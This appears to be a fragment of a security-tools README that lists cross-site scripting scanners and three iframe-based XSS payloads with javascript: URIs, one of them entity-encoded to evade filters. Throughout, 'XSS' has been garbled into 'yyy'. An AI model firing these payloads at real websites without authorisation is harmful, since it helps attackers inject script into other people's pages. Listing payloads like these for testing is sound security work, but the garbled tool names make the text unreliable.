 




#### yyy Vulnerability Scanner Tool's :

* [yyytrike](https://github.com/UltimateHackers/yyytrike)

* [Bruteyyy Terminal](https://github.com/shawarkhanethicalhacker/Bruteyyy)

* [Bruteyyy GUI](https://github.com/rajeshmajumdar/Bruteyyy)

* [yyy Scanner Online](http://yyy-scanner.com/)

* [yyyer](https://tools.kali.org/web-applications/yyyer)

* [yyycrapy](https://github.com/DanMcInerney/yyycrapy)  
* [Cyclops](https://github.com/v8blink/Chromium-based-yyy-Taint-Tracking)  

#### yyy Payload List :



<IFRAME SRC="javascript:alert('Window.document.cookie');"></IFRAME>
"><h23><IFRAME SRC="javascript:alert('xss');"></IFRAME>">2323</h23>

<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>











